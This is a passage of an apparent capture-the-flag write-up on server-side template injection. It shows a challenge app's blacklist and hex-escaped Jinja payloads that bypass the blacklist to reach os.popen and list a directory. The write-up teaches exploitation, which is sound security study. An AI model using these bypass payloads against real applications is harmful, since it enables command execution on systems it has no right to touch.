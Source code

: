 [![7*7](/assets/1337UPCTF/1truth1.png)](/assets/1337UPCTF/1truth1.png)
<figcaption align=center><b>Figure 3.1: Successful SSTI Shown in Burp Suite</b></figcaption>
&nbsp;

When we supply the classic `\{\{7*7\}\}` string to the app, it spits out a the tell-tale 49.
So this segment is definitely injectable, but looking closer at it's code, it has a small
blacklist that complicates things. The app blocks the use of any of the following:

>'.', '_', '\|join', '[', ']', 'mro', 'base'

This makes things a fair bit more complicated. However, with a bit of googling we can
find a decent bypass for most of these vulnerabilities. Since `attr` is not in the blacklist,
we can easily bypass the first two filters and access the globals.

>\{\{request\|attr('application')\|attr('\x5f\x5fglobals\x5f\x5f')\}\}

Now we just need to use these to access some system commands. The easiest way to do this,
in this case, we can work our way towards popen. Popen will let us create a process and
read it's output for a lot of common system commands. First, to create a injection to
list directory contents and get our bearings

>\{\{request\|attr('application')\|attr('\x5f\x5fglobals\x5f\x5f')\|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')\|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')\|attr('popen')('ls')\|attr('read')()\}\}

